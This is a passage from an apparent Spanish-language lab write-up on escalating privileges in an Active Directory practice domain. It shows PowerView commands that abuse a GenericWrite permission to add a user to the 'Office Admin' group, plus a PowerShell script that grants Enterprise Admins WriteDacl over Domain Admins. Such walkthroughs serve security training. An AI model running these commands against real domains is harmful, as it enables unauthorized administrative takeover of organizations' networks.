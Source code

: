 Por lo que se podra explotar ese `GenericWrite` de la siguiente forma.

Esto lo que nos permite hacer es añadir directamente miembros en un grupo, que en este caso seria en el de `Office Admin`.

### Elevacion a grupo Office Admin mediante el permiso GenericWrite

Tendremos que cerrar la consola de `Annice` y volverla abrir como hicimos antes.

```powershell
runas /user:corp\annice.mable /netonly powershell
```

```powershell
cd C:\Users\empleado1\Desktop\
. .\new_powerview.ps1
Add-DomainGroupMember -Identity "Office Admin" -Members annice.mable
```

Y si no nos salio ningun error y ningun resultado significa que fue todo bien, por lo que si vamos al `DC` y vemos si se configuro de forma correcta...

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

Vemos que esta añadida correctamente, por lo que ya pertenecemos al grupo `Office Admin`.

Como dentro de este grupo hereda los privilegios de `Administradores de empresa` no haria falta que hicieramos nada, pero si llegamos a `Administradores de empresa` para poder llegar a `Admins del dominio` veremos que esta con permisos de `WriteDacl` y vamos a ver como explotar esto, pero si no lo tuvierais asi configurado, se haria de la siguiente forma en el `DC`:

```powershell
# Nombre del grupo que recibirá el permiso
$principal = "Enterprise Admins"

# Distinguished Name del grupo de destino
$targetDN = "CN=Domain Admins,CN=Users,DC=corp,DC=local"

# Obtener ACL del objeto de destino
$acl = Get-Acl -Path "AD:$targetDN"

# Crear el ACE para WriteOwner
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule(
    (New-Object System.Security.Principal.NTAccount($principal)), # Grupo destino
    "WriteDacl",                                                  # Permiso específico
    "Allow"                                                       # Acción: Permitir
)

# Agregar el ACE a la ACL
$acl.AddAccessRule($ace)

# Aplicar los cambios a la ACL
Set-Acl -Path "AD:$targetDN" -AclObject $acl
```
